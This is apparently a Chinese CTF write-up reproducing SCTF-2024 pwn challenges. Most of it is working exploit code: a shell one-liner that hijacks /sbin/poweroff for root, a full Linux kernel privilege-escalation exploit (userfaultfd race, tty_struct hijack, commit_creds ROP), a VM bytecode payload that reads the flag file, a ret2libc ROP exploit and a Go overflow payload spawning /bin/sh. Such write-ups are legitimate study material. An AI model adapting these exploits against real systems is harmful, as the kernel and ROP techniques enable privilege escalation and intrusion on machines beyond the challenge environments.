





# SCTF-2024复现-先知社区

> **来源**: https://xz.aliyun.com/news/17429  
> **文章ID**: 17429

---

# kno\_puts

ls看一下发现/bin/和/sbin目录所有者为1000，就是我们现在用的这个用户,其权限为7，这里题目环境的权限设置有问题，导致我们可以随意修改/bin和/sbin目录下的东西

sbin目录为root权限下的指令,执行时带着root权限,



导致我们可以随意修改/bin和/sbin目录下的东西，这里注意到sbin下面有一个poweroff可执行文件,这个程序是在linux系统关闭时会被调用的。

由于远程docker环境几乎都是会以init.sh启动，是以root权限启动的，因此最后会以root权限去执行poweroff，则我们只要劫持poweroff程序即可在linux机器退出时以root权限执行任意命令。

即可构造payload

```
mv /sbin /SBIN && mkdir /sbin && echo "/bin/sh">/sbin/poweroff && chmod 777 /sbin/poweroff && exit
```

# kno\_puts revenge

## notes leak + userfaultfd + tty\_struct + rt\_regs

利用notes leak泄露内核基地址,利用uffd机制大大提高条件竞争概率,劫持tty结构体到rt\_regs上执行krop

EXP

```
// musl-gcc exp.c --static -masm=intel -lpthread -idirafter /usr/include/ -idirafter /usr/include/x86_64-linux-gnu/ -o exp

#define _GNU_SOURCE

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <poll.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/shm.h>
#include <sys/wait.h>
#include <linux/keyctl.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#include <stddef.h>
#include <sys/utsname.h>
#include <stdbool.h>
#include <sys/prctl.h>
#include <sys/resource.h>
#include <linux/userfaultfd.h>
#include <sys/socket.h>
#include <asm/ldt.h>
#include <linux/if_packet.h>

#define __int64 long long
#define CLOSE printf("\033[0m
");
#define RED printf("\033[31m");
#define GREEN printf("\033[36m");
#define BLUE printf("\033[34m");
#define YELLOW printf("\033[33m");
#define showAddr(var) _showAddr(#var,var);

size_t modprobe_path = 0xffffffff824493c0;
size_t heap_addr = 0;
size_t work_for_cpu_fn = 0xffffffff810bd960;
size_t init_creds = 0xffffffff82c6b920;
size_t commit_creds = 0xffffffff810ce710;
size_t fake_ops_addr = 0;
size_t orignal[0x30];
size_t leak, kernel_base;
size_t gadget = 0xffffffff817d1e76;
size_t pop_rdi;
size_t add_rsp_188_pop_rbx_ret;
size_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00a74;


void err_exit(char *msg){
    printf("\033[31m\033[1m[x] Error at: \033[0m%s
", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}
 
void info(char *msg){
    printf("\033[34m\033[1m[+] %s
\033[0m", msg);
}
 
void hexx(char *msg, size_t value){
    printf("\033[32m\033[1m[+] %s: %#lx
\033[0m", msg, value);
}
 
void binary_dump(char *desc, void *addr, int len) {
    uint64_t *buf64 = (uint64_t *) addr;
    uint8_t *buf8 = (uint8_t *) addr;
    if (desc != NULL) {
        printf("\033[33m[*] %s:
\033[0m", desc);
    }
    for (int i = 0; i < len / 8; i += 4) {
        printf("  %04x", i * 8);
        for (int j = 0; j < 4; j++) {
            i + j < len / 8 ? printf(" 0x%016lx", buf64[i + j]) : printf("                   ");
        }
        printf("   ");
        for (int j = 0; j < 32 && j + i * 8 < len; j++) {
            printf("%c", isprint(buf8[i * 8 + j]) ? buf8[i * 8 + j] : '.');
        }
        puts("");
    }
}

/* bind the process to specific core */
void bind_core(int core){
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d
", core);
}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status(){
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void _showAddr(char*name,size_t data){
    BLUE;printf("[*] %s -> 0x%llx ",name,data);CLOSE;
 }

int fd;
char passwd[64]={0};
void add(){
    puts("[*] Begin add.");
    memset(passwd,0,64);
    passwd[32]=1;
    size_t* ptr=(size_t*)(passwd+32);
    ptr[0]=1;
    ptr[1]=passwd;
    int result = ioctl(fd, 0xFFF0, passwd);
    heap_addr=*(size_t*)passwd;
    showAddr(heap_addr);
}
int FILE_spary[20];
void del(){
    puts("[*] Begin delete");
    size_t* ptr=(size_t*)(passwd+32);
    ptr[1]=0;
    int result = ioctl(fd, 0xFFF1, passwd);
        if(result != -1){
            info("Delete success.");

        }
}


size_t payload[0x100];
int tty_fd;

size_t uffd_buf[0x200];
void register_userfaultfd(void* uffd_buf, pthread_t pthread_moniter, void* handler){
    int uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
 
    uffd = syscall(__NR_userfaultfd, O_NONBLOCK|O_CLOEXEC);
    if (uffd == -1) err_exit("syscall for userfaultfd ERROR in register_userfaultfd func");
 
    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1) err_exit("ioctl for UFFDIO_API ERROR");
 
    uffdio_register.range.start = (unsigned long long)uffd_buf;
    uffdio_register.range.len = 0x1000;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1) err_exit("ioctl for UFFDIO_REGISTER ERROR");
 
    int res = pthread_create(&pthread_moniter, NULL, handler, uffd);
    if (res == -1) err_exit("pthread_create ERROR in register_userfaultfd func");
}

void hijack_handler(void *args){
    int uffd = (int)args;
    struct uffd_msg msg;
    struct uffdio_copy uffdio_copy;

    for (;;){
        struct pollfd pollfd;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        if (poll(&pollfd, 1, -1) == -1)
            err_exit("Failed to exec poll for leak_handler");

        int res = read(uffd, &msg, sizeof(msg));
        if (res == 0)
            err_exit("EOF on userfaultfd for leak_handler");
        if (res == -1)
            err_exit("ERROR on userfaultfd for leak_handler");
        if (msg.event != UFFD_EVENT_PAGEFAULT)
            err_exit("INCORRET EVENT in leak_handler");
        // operation
        info("hijack the kernel in userfaultfd -- hijack_handler");
        del();

        tty_fd = open("/dev/ptmx", O_RDWR);
        uffd_buf[0] = 0x100005401;
        uffd_buf[1] = 0;
        uffd_buf[2] = kernel_base + 0x13e8030 - 0x60;
        uffd_buf[3] = fake_ops_addr + 0x40;
        uffd_buf[4] = commit_creds;
        uffd_buf[5] = init_creds;
        uffd_buf[7] = add_rsp_188_pop_rbx_ret;
        hexx("uffd_buf[0]", uffd_buf[0]);
        hexx("uffd_buf[1]", uffd_buf[1]);
        hexx("uffd_buf[2]", uffd_buf[2]);
        hexx("uffd_buf[3]", uffd_buf[3]);
        hexx("uffd_buf[4]", uffd_buf[4]);
        hexx("uffd_buf[5]", uffd_buf[5]);
        
        uffdio_copy.src = uffd_buf;
        uffdio_copy.dst = (unsigned long)msg.arg.pagefault.address & ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            err_exit("Failed to exec ioctl for UFFDIO_COPY in leak_handler");
    }
}

void get_root_shell(void){
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}
size_t get_root_func = (size_t)get_root_shell;

int main(int argc, char** argv, char** env)
{
    char data[0x200];

    bind_core(0);
    save_status();

    fd = open("/dev/ksctf",O_RDWR);
    if (fd < 0){
        err_exit("open device failed!");
    }

    int note_fd = open("/sys/kernel/notes", O_RDONLY);
    read(note_fd, data, 0x100);
    binary_dump("/sys/kernel/notes", data, 0x100);

    memcpy(&leak, &data[0x84], 8);
    hexx("leak", leak);
    kernel_base = leak - 0x19e1180;
    hexx("kernel_base", kernel_base);
    size_t kernel_offset = kernel_base - 0xffffffff81000000;
    hexx("kernel_offset", kernel_offset);

    modprobe_path += kernel_offset;
    hexx("modprobe_path", modprobe_path);

    
    work_for_cpu_fn  = kernel_base + 0x8c360;
    init_creds = kernel_base + 0x1448cc0;
    commit_creds = kernel_base + 0x97d00;
    swapgs_restore_regs_and_return_to_usermode += kernel_offset + 35;
    hexx("commit_creds", commit_creds);
    hexx("work_for_cpu_fn", work_for_cpu_fn);
    hexx("swapgs_restore_regs_and_return_to_usermode", swapgs_restore_regs_and_return_to_usermode);

    pop_rdi = kernel_base + 0xe031;
    add_rsp_188_pop_rbx_ret = kernel_base + 0x9369cc;
    hexx("add_rsp_188_pop_rbx_ret",add_rsp_188_pop_rbx_ret);

    add();
    fake_ops_addr = heap_addr - 0x68;
    hexx("fake_ops_addr", fake_ops_addr);

    pthread_t pwn;
    char *uffd_buf_hijack = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
    register_userfaultfd(uffd_buf_hijack, &pwn, hijack_handler);

    orignal[0] = 0x100005401;
    orignal[1] = 0;
    orignal[2] = heap_addr - 0x2a5540;
    orignal[3] = kernel_base + 0x1073e00;
    orignal[4] = 0;
    orignal[5] = 0;
    orignal[6] = 0;

    write(fd,uffd_buf_hijack,0x40);

    __asm__(
        "mov r15,   pop_rdi;"
        "mov r14,   init_creds;"
        "mov r13,   commit_creds;"
        "mov r12,   swapgs_restore_regs_and_return_to_usermode;"
        "mov rbp,   0;"
        "mov rbx,   0;"
        "mov r11,   user_cs;"
        "mov r10,   user_rflags;"
        "mov r9,    user_sp;"
        "mov r8,    user_ss;"
        "xor rax,   16;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   0xfffffe0000010f58;"
        "mov rsi,   0xfffffe0000010f58;"
        "mov rdi,   tty_fd;"        
        "syscall"
    );

    hexx("UID", getuid());
    system("/bin/sh");
    puts("[+] EXP END.");
    return 0;
}
```

# vmcode

看伪代码什么都看不出来,直接看汇编



可以看到在进行取opcode,找偏移执行的操作

具体操作为(opcode-0x21)\*2+offset 算出取出偏移后,与rsp栈上地址相加,执行

逆出指令

|  |  |  |  |
| --- | --- | --- | --- |
| opcode | 地址 | 作用 | 备注 |
| 0x21 | 0x1274 | call调用 |  |
| 0x22 | 0x1299 | sub rsp,8;mov rsi,[rsp] |  |
| 0x23 | 0x12a7 | xor [rsp-0x10],[rsp-0x8];sub rsp,8 |  |
| 0x24 | 0x12c4 | xchg [rsp-8],[rsp-0x18]; |  |
| 0x25 | 0x12e0 | xchg [rsp-0x8],[rsp-0x10] |  |
| 0x26 | 0x12fc | push 4字节;(rsp+8) |  |
| 0x27 | 0x1319 | 只保留rsp-8低一个字节 |  |
| 0x28 | 0x132e | rsp-8 |  |
| 0x29 | 0x1332 | [rsp-8]>>8 |  |
| 0x2a | 0x1348 | mov [rsp-8],[rsp+8];(rsp+8) |  |
| 0x2b | 0x135c | [rsp-8]<<8 |  |
| 0x2c | 0x1372 | if [rsp-8]==0,继续,否则跳跃0x138c(rsp-8),add rsi,2; | 实现了jnz |
| 0x2d | 0x13a3 | mov [rsp-0x10],([rsp-8]>>[rsp-0x10]);(rsp-8) |  |
| 0x2e | 0x13c0 | mov [rsp-0x10],([rsp-8]<<[rsp-0x10]);(rsp-8) |  |
| 0x2f | 0x13dd | mov [rsp-0x10],([rsp-8] and [rsp-0x10]);(rsp-8) |  |
| 0x30 | 0x13fa | mov rax,[rsp-0x8];mov rsi,[rsp-0x18];mov rdx,[rsp-0x20];mov rdi,[rsp-0x10],syscall还原进入时的rdi,rsi,(rsp-0x18);mov [rsp-0x8],rax |  |
| 0x31 | 0x1425 | push rsp |  |
| 0x32 | 0x1439 | push rip |  |
| 0x33 | 0x1452 | exit |  |

## exp

```
#!/usr/bin/env python3
#iamorange
#----------------------------------------------  
#main script begin:
start()

r()
push_4=0x26
push_rsp=0x31
syscall=0x30
#rax=2 rdi=["flag"] rsi=0 rdx=0
#rax=[rsp-8] rdi=[rsi-0x10] rsi=[rsp-0x18] rdx-[rsp-0x20]
payload = flat([push_4,b"flag",push_rsp,push_4,p32(0),push_4,p32(0),0x24,push_4,p32(2),syscall],word_size=8)
payload += flat([push_rsp,push_4,p32(0x10),0x23,push_4,p32(0x100),push_4,p32(0),0x24,push_4,p32(3),push_4,p32(0),syscall],word_size=8)
payload += flat([push_4,p32(0x100),push_rsp,push_4,p32(0xe8),0x23,push_4,p32(1),push_4,p32(1),syscall],word_size=8)
#rsp
#rdx 0x100
#rsi rsp
#rdi 3  rsp
#rax 0 
debug(0x13fa,"c")
s(payload)

ia()
```

# factory





动态分配算法内存向下取整有误,导致出现了栈溢出

算法计算对应表如下

```
# 0x0:  []
# 0x10:  [0, 1, 2]
# 0x20:  [3, 4, 5, 6]
# 0x30:  [7, 8, 9, 10]
# 0x40:  [11, 12, 13, 14]
# 0x50:  [15, 16, 17, 18]
# 0x60:  [19, 20, 21, 22]
# 0x70:  [23, 24, 25, 26]
# 0x80:  [27, 28, 29, 30]
# 0x90:  [31, 32, 33, 34]
# 0xa0:  [35, 36, 37, 38]
# 0xb0:  [39, 40]
```

## exp

```
#!/usr/bin/env python3
#iamorange
def fill(num):
    sa("= ",tb(num))
#----------------------------------------------  
#main script begin:
start()

r()
n=26
sl(tb(n))
pop_rdi=0x401563
for i in range(0xe):
    fill(1)

fill(17)
fill(pop_rdi)
fill(pop_rdi)
fill(pop_rdi)
fill(pop_rdi)
fill(elf.got['puts'])
fill(elf.plt['puts'])
fill(0x40148f)
fill(elf.got['puts'])

ru(b'\x0a')
puts_addr = u64(r(7)[:-1].ljust(8, b'\x00'))
lb=puts_addr-0x84420
binsh=lb+0x1b45bd
system=lb+0x52290
lg(lb)

r()
n=26
sl(tb(n))
pop_rdi=0x401563
for i in range(0xe):
    fill(1)

fill(17)
fill(pop_rdi)
fill(pop_rdi)
fill(pop_rdi)
fill(pop_rdi)
fill(binsh)
fill(0x4014f5)
fill(system)

debug(0x40148d)
fill(elf.got['puts'])

ia()
```

# GoComplier

一个github的开源项目Go简易编译器,启动文件会先执行ugo编译器,编译hello.ugo文件,然后转成可执行文件



盲盒测试函数返回字符串到栈上变量时,再次修改会产生溢出,并且该题是静态编译,未开pie,则可计算偏移直接劫持栈打system("/bin/sh");

## exp

```
package main
func shell() string{
    return "/bin/sh"
}

func pad() string {
    return "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}

func main() {
    var a string = pad()
    a ="aaaaaaaaaO\x1e@\x00\x00\x00\x00\x00\x10\x80I\x00\x00\x00\x00\x00\xbe\x9e@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xeb\xecG\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00g{D\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00VEA\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    return 0
}

```
